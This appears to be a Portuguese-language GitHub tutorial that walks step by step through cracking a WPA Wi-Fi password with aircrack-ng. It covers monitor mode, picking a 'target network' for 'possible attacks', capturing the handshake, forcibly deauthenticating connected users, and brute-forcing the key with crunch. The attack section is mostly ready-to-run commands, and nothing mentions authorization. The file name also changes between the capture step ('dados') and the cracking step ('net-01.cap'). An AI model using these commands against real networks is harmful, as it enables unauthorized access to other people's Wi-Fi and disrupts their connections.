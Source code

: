 <p>
Instale o aircrack-ng:
</p>

<p>
<precode><code>sudo apt-get update
</code></pre>
</p>
<p>
<precode><code>sudo apt-get install aircrack-ng
</code></pre>
</p>
<p>
Verificar o nome da sua interface Wi-FI:
</p>

<p>
<precode><code>iwconfig
</code></pre>
</p>

<p>
Após verificar o nome da interface, deve-se verificar se o Ubuntu está reconhecendo o driver da interface sem fio:
</p>

<p>
<precode><code>sudo airmon-ng
</code></pre>
</p>

<p>
verificar se tem algum processo que pode acabar atrapalhando o processo de captura de pacotes:
</p>

<p>
<precode><code>sudo airmon-ng check kill
</code></pre>
</p>

<p>
Vamos colocar nossa placa de rede em modo monitor:
</p>

<p>
<precode><code>sudo airmon-ng start [nome_da_sua_interface_wireless]
</code></pre>
</p>
<p>
<precode><code>iwconfig
</code></pre>
<p>
Quando a placa estiver pronta para monitorar, podemos ver quais são as redes disponíveis para nossos possíveis ataques.
</p>

<p>
<precode><code>airodump-ng [nome_da_sua_interface_wireless]
</code></pre>

<p>
Após selecionar a rede alvo, utilizaremos algumas de suas informações. Você pode guardá-las em um bloco de notas. As informações são as seguintes:<br />
</p>
<p>
<strong>BSSID:</strong> <em>Basic Service Set Identifier</em> se refere ao endereço MAC de um adaptador sem fio ou de um ponto de acesso.Sua função é identificar exclusivamente um ponto de acesso que enviará sinais pra transmissão da rede sem fio.<br />
<strong>CH:</strong> Canal na qual a rede está operando.<br />
<strong>ESSID:</strong> nome que é visível na rede.<br />
</p>

<p>
Agora que temos a rede alvo, iremos monitorá-la usando algumas das informações adquiridas que guardamos em um bloco de notas anteriormente. É importante que pelo menos 300 pacotes de dados tenham passado pela rede para garantir que o <strong>WPA HANDSHAKE</strong> seja capturado.
<p>
<pre><code>sudo airodump-ng -c [canal_da_rede_alvo] --bssid [bssid_da_rede_alvo] -w dados
</code></pre>
</p>

<p>
Hora de capturar o tão esperado WPA HANDSHAKE. Para que seja capturado, é preciso que alguém se conecte à à rede. Há duas opções: você espera a oportunidade que algum usuário se conecte ou você pode desautenticar quem já está conectado e capturar o WPA HANDSHAKE logo que o usuário se reconectar. Usaremos a segunda opção!
<p>
<pre><code>sudo aireplay-ng -0 10 -a [bssid_da_rede_alvo] [nome_da_sua_interface_wireless]
</code></pre>
</p>

<p>
Verificar o <strong>WPA HANDSHAKE</strong> capturado no arquivo criado anteriormente na execução do comando de captura. No caso deste tutorial, o arquivo criado recebeu o nome “dados”. Dê o seguinte comando no seu diretório atual:
</p>
<pre><code>ls
sudo aircrack-ng net-01.cap
</code></pre>
</p>

<p>
Hora de quebrar no Brute Force:
<p>
<pre><code>sudo crunch [min] [max] [padrão] | aircrack-ng [net-01.cap] -w - -e [essid_da_rede_alvo]
</code></pre>
</p>

<p>
Ao final, temos de reativar o nosso network-manager pois ao usar o comando check kill ele o desativa.
</p>

<p>
<precode><code>sudo service network-manager start
</code></pre>
</p>
